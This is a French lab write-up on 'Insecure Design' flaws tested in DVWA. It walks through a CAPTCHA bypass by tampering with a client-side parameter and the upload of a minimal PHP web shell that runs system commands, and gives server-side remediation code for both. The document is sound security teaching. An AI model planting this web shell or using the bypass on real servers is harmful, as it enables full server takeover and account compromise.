

# Insecure Design

## Présentation
Une faille d’Insecure Design survient quand une protection n’a pas été pensée dès la conception : la logique métier ou l’architecture laisse des possibilités d’abus (on fait confiance au client, pas au serveur).  
Ici j’ai testé deux cas en labo : bypass de CAPTCHA (DVWA) et IDOR / modification du secret d’un autre utilisateur (bWAPP).

## Test 1 — Bypass du CAPTCHA (DVWA)

L'objectif va être de vérifier si le changement de mot de passe peut être effectué sans résoudre le captcha.


### Pratique 

- Requête initiale :  
    
  (formulaire + param step=2 et champs mot de passe)

- Requête modifiée via Burp (on force le step et on soumet) :  
  

- Résultat : mot de passe modifié sans validation du captcha :  
  

### Analyse
- La logique se fie à des paramètres envoyés côté client (step) et/ou n’effectue pas de vérification serveur du token captcha.
- C’est une erreur de conception : le serveur doit valider le captcha et maintenir l’état côté serveur.

### Remédiation
1. Vérifier le token captcha côté serveur (ex. API reCAPTCHA) avant toute action sensible.  
2. Stocker en session un drapeau captcha_verified uniquement après vérification réussie.  
3. Ajouter un CSRF token sur le formulaire et invalider captcha_verified après usage. Un CSRF token est un jeton unique généré par le serveur et inclus dans les formulaires ou requêtes pour vérifier que l’action provient bien de l’utilisateur légitime, empêchant ainsi les attaques de type Cross-Site Request Forgery (CSRF).
4. Journaliser et appliquer un rate-limit sur l’endpoint.

```php
// Vérif token captcha côté serveur
session_start();
$token = $_POST['g-recaptcha-response'] ?? '';
if (empty($token)) { http_response_code(400); exit; }

$secret = 'TA_CLE_SECRETE';
$resp = json_decode(file_get_contents(
  "https://www.google.com/recaptcha/api/siteverify?secret=".urlencode($secret)."&response=".urlencode($token)
), true);

if (empty($resp['success'])) { http_response_code(403); echo "Captcha invalide"; exit; }

$_SESSION['captcha_verified'] = true;
```

La correction permet lors de l'envoie de la requête de changement de mot de passe sans token ou avec token invalide d'envoyer une réponse 403 (accès interdit) et de vérifier que l’action ne passe que si captcha_verified en session est présent et valide ainsi que le CSRF soit bon.

## Test 2 — File Upload (DVWA)

L'objectif va être d'upload une backdoor sur le site.

Pour cela nous allons utiliser fichier php et la partie File Upload du site DVWA.

### Pratique

Il faut commencer par créer le fichier avec le code suivant 
```php
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```
Ce code permet d'exécuter une commande entrée en argument du fichier.

Ensuite il faut l'upload sur le site :


Enfin la connexion peut être effectué en accédant au fichier dans l'URL.



Ici nous avons exécuté la commande ```pwd``` qui permet d'afficher le répertoire courant.


### Analyse

Dans ce scénario, l’application accepte un fichier envoyé par l’utilisateur et le stocke dans un emplacement directement accessible depuis le navigateur. L’upload d’une webshell PHP a permis d’obtenir une exécution de commandes système, démontrant que la fonctionnalité d’upload n’avait pas été conçue avec les contrôles nécessaires. Le problème provient d’un défaut de conception : l’application se contente d’accepter le fichier sans contrôle fiable côté serveur. Elle se limite à des validations superficielles, souvent réalisées côté client, qui sont facilement contournables par un attaquant. Le serveur ne vérifie pas le type réel du fichier, autorise le stockage de fichiers exécutables dans un répertoire interprété par PHP et conserve le nom fourni par l’utilisateur, ce qui ouvre la voie à des contournements classiques tels que les doubles extensions. L’impact est particulièrement critique puisqu’il permet une prise de contrôle complète du serveur via l’exécution de code arbitraire. L’exemple réalisé dans DVWA illustre que l’absence de validation interne, de gestion sécurisée du stockage, de restriction d’exécution et de contrôle d’accès favorise une compromission totale du système.

### Remédiation

La correction de ce type de faille exige de ne plus faire confiance aux données envoyées par le client et d’effectuer toutes les vérifications sur le serveur. Le traitement des uploads doit être repensé pour autoriser uniquement les fichiers strictement nécessaires et en vérifier la nature réelle à l’aide d’outils serveur comme `finfo`, plutôt que de se fier aux informations déclarées par le navigateur. Les fichiers doivent être stockés dans un emplacement situé hors du répertoire web, de manière à empêcher toute exécution directe. Le serveur doit renommer chaque fichier avec un identifiant généré automatiquement et appliquer des permissions restreintes afin de supprimer toute possibilité d’exécution. Avant le stockage, il est nécessaire de vérifier que le contenu ne contient pas de code exécutable et, idéalement, de le soumettre à un antivirus. La taille et la nature des fichiers doivent être limitées, et seules les personnes autorisées doivent être en mesure d’effectuer des uploads. Enfin, la fonctionnalité doit être journalisée afin de conserver une trace exploitable en cas d’incident, et faire l’objet de contrôles réguliers pour prévenir les régressions de sécurité.


Un code PHP pour portéger le serveur de ce type d'attaque serait le suivant.

```php
<?php
session_start();

$allowed_ext = ['jpg','jpeg','png','gif','pdf'];
$upload_dir = '/var/www/uploads_secure/';
$max_size = 5 * 1024 * 1024;

if (!isset($_FILES['uploaded_file'])) {
    http_response_code(400);
    exit('Aucun fichier envoyé');
}

$file = $_FILES['uploaded_file'];
if ($file['error'] !== UPLOAD_ERR_OK) {
    http_response_code(400);
    exit('Erreur upload');
}
if ($file['size'] > $max_size) {
    http_response_code(413);
    exit('Fichier trop volumineux');
}

$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime = finfo_file($finfo, $file['tmp_name']);
finfo_close($finfo);

$mime_to_ext = [
    'image/jpeg' => 'jpg',
    'image/png' => 'png',
    'image/gif' => 'gif',
    'application/pdf' => 'pdf'
];

if (!isset($mime_to_ext[$mime])) {
    http_response_code(415);
    exit('Type de fichier non autorisé');
}
$ext = $mime_to_ext[$mime];

$original_ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
if (!in_array($ext, $allowed_ext) || ($original_ext && !in_array($original_ext, $allowed_ext))) {
    http_response_code(415);
    exit('Extension non autorisée');
}

$contents = file_get_contents($file['tmp_name']);
if (strpos($contents, '<?php') !== false || strpos($contents, '<?=') !== false) {
    http_response_code(403);
    exit('Contenu dangereux détecté');
}

$stored_name = bin2hex(random_bytes(16)) . '.' . $ext;
$dest = $upload_dir . $stored_name;

if (!move_uploaded_file($file['tmp_name'], $dest)) {
    http_response_code(500);
    exit('Échec stockage fichier');
}

chmod($dest, 0640);

error_log(sprintf("UPLOAD: user=%s ip=%s orig=%s stored=%s size=%d mime=%s",
    $_SESSION['user_id'] ?? 'anonymous',
    $_SERVER['REMOTE_ADDR'],
    $file['name'],
    $stored_name,
    $file['size'],
    $mime
));

echo 'Upload OK';
?>

## Conclusion

Les vulnérabilités observées relèvent d’un problème de conception avant même un problème d’implémentation. L’Insecure Design apparaît lorsque les mécanismes de sécurité ne sont pas intégrés dès la phase d’architecture et de réflexion fonctionnelle. Les exemples étudiés démontrent que, même si le code produit fonctionne techniquement, l’absence de réflexion préalable sur la manière dont un attaquant pourrait détourner la logique métier conduit à des failles critiques. Il est essentiel de concevoir les protections au niveau serveur, de ne pas se fier aux données envoyées par le client, et de s’assurer que chaque fonctionnalité, surtout lorsqu’elle est sensible, soit dotée d’un processus robuste d’authentification, de validation, d’autorisation et de contrôle.

Une approche uniquement basée sur des validations superficielles ou visuelles ne protège pas une application. Il est nécessaire de combiner plusieurs mesures complémentaires et cohérentes afin de rendre l’exploitation impossible ou très difficile, même pour un attaquant déterminé. Corriger l’Insecure Design requiert souvent bien plus qu’un simple correctif appliqué au code : cela implique une remise en question de l’architecture, des processus de développement et de la logique métier. Une approche de type “Shift-Left Security”, intégrant la sécurité dès la conception, ainsi que l’utilisation de modèles de menace et de revues d’architecture, constitue un moyen efficace pour éviter que ces failles n’atteignent la production. L’objectif ultime est de concevoir des fonctionnalités intrinsèquement résistantes à l’abus, en anticipant les scénarios d’attaque dès leur conception.

